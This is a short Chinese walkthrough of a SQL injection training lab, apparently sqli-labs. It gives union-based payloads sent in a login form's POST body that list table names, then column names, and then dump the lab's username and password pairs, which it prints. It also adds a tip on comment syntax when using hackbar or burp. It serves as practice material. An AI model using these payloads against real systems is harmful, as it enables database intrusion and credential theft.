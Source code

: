 ![](https://img.yatjay.top/md/202203251644398.png)

**爆当前数据库表名**：emails referers uagents users

```sql
uname=-9' union select group_concat(table_name),2 from information_schema.tables where table_schema=database()--+&passwd=admin&submit=Submit
```

![](https://img.yatjay.top/md/202203251644909.png)

**爆字段名：**id username password

```sql
uname=-9' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' --+&passwd=admin&submit=Submit
```

![](https://img.yatjay.top/md/202203251645700.png)

**爆字段值：**

Dumb>Dumb,

Angelina>I-kill-you,

Dummy>p@ssword,

secure>crappy,

stupid>stupidity,

superman>genious,

batman>mob!le,

admin>admin,

admin1>admin1,

admin2>admin2,

admin3>admin3,

dhakkan>dumbo,

admin4>admin4,

admin5>admin5

```sql
uname=-9' union select group_concat(username,'>',password),2 from users--+&passwd=admin&submit=Submit
```

![](https://img.yatjay.top/md/202203251645904.png)

**注意：**

**如果是使用hackbar直接提交时，--+有时会报错，需要使用#注释，使用burp可以是--+，因为POST提交的数据，所以不用进行url编码，直接显示的是POST原文**

**总结：**

